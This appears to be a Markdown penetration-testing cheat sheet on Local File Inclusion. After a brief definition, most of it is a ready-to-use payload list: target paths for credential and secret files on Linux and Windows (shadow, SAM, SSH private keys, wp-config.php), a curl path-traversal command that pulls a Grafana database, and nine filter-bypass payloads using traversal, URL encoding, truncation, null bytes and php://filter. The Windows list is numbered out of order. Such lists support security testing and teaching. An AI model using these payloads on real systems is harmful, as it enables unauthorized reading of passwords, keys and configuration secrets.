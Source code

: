 ### **INTRODUCTION**

Local File Inclusion (LFI) is a type of vulnerability in web applications that allows an attacker to read and potentially execute files on the server that hosts the web application. This occurs when an application includes files without properly sanitizing user input, allowing paths to unintended files to be injected. LFI can lead to information disclosure and remote code execution.

### **COMMON LFI PATHS ON LINUX SYSTEM**

1.  Accesses the system user account and password file.  
    `/etc/passwd`
2.  Reads the root user email files.  
    `/var/mail/root`
3.  Retrieves SSH private keys from a user home directory.  
    `/home/user/.ssh/id_rsa`
4.  Reads the Apache web server access log.  
    `/var/log/apache2/access.log`
5.  Accesses WordPress configuration files typically located in web server directories    
    `/var/www/html/wp-config.php`
6.  Reads the shadow file containing encrypted passwords and related information for user accounts.  
    `/etc/shadow`
7. `curl --path-as-is http://[DOMAIN_NAME]/public/plugins/alertGroups/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db`

### **COMMON LFI PATHS ON WINDOWS SYSTEM**

1. Retrieves the Windows initialization file, which contains settings.
	`\windows\win.ini`
3.  Retrieves SSH private keys in the user directory.  
    `C:/Users/viewer/.ssh/id_rsa`
4. IIS WEb config file
				 `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
	`C:\inetpub\wwwroot\web.config`

6.  Accesses the system hosts file, which contains network information.  
    `C:/Windows/System32/drivers/etc/hosts`
3.  Reads IIS web server log files, which can be exploited for further attacks.  
    `C:/inetpub/logs/LogFiles/W3SVC1/u_ex<date>.log`
4.  Accesses the boot configuration data with startup settings.  
    `C:/boot.ini`
5.  Reads the autoexec batch file used in older versions of Windows for global environment settings.  
    `C:/autoexec.bat`
6.  Accesses the hosts file to view or manipulate network settings.  
    `C:/windows/system32/drivers/etc/hosts`
7.  Retrieves the Security Accounts Manager file storing user credentials.  
    `C:/windows/repair/SAM`
8.  Accesses the WordPress configuration file on XAMPP installations.  
    `../../../../../../../../xampp/htdocs/blog/wp-config.php`
9.  Retrieves SSH private keys from a user profile.  
    `../../../../../../../../Users/Viewer/.ssh/id_rsa`

### **LOCAL FILE INCLUSION (LFI) FILTER BYPASSING COMMANDS**

Techniques for bypassing LFI filters using path traversal, filter bypasses, and encoding:

1.  Basic LFI: Displays the system password file.  
    `/index.php?language=/etc/passwd`
2.  Path Traversal LFI: Uses directory traversal to access critical system files.  
    `/index.php?language=../../../../etc/passwd`
3.  Name Prefix LFI: Similar to basic path traversal with different path depth.  
    `/index.php?language=/../../../etc/passwd`
4.  Approved Path LFI: Bypasses restrictions by starting with an allowed path.  
    `/index.php?language=./languages/../../../../etc/passwd`
5.  Basic Path Traversal Bypass: Uses obscure sequences to bypass simple traversal filters.  
    `/index.php?language=....//....//....//....//etc/passwd`
6.  URL Encoding Filter Bypass: Encodes traversal sequences to evade detection.  
    `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`
7.  Path Truncation: Uses deep recursion to force path truncation.  
    `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[REPEATED ~2048 times]`
8.  Null Byte Obsolescence: Appends a null byte to terminate the string prematurely (not effective on modern systems).  
    `/index.php?language=../../../../etc/passwd%00`
9.  Base64 PHP Reading: Encodes PHP files into base64 for safer retrieval.  
    `/index.php?language=php://filter/read=convert.base64-encode/resource=config`